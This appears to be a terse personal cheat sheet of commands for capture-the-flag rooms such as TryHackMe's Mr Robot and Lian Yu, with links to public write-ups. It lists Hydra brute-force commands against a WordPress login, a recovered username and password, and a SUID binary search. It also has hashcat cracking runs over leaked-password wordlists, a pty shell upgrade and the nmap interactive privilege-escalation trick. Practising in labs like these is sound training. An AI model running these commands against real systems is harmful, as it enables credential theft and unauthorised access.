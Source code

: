IP=10.10.120.8


hydra -V -L fsocity.dic -p 123 $IP http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

hydra -V -l Elliot -P wordlist.dic $IP http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=Location' -I




Elliot
ER28-0652





find / -perm /4000 -print 2>dev/null

sudo -l


sudo hashcat -a 0 -m 0 c3fcd3d76192e4007dfb496cca67e13b /usr/share/wordlists/Leaked-Databases/*

python -c 'import pty; pty.spawn("/bin/bash")'

nmap --interactive

https://medium.com/bugbountywriteup/tryhackme-mr-robot-ctf-writeup-ff0b3be5bd18



sudo hashcat -a 0 -m 0 aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 /usr/share/wordlists/Leaked-Databases/*

500:

https://n00bmasterr.github.io/writeup/lianyu.html

https://7s26simon.wordpress.com/2020/05/23/lian-yu-write-up/#shell

M3tahuman

sudo -l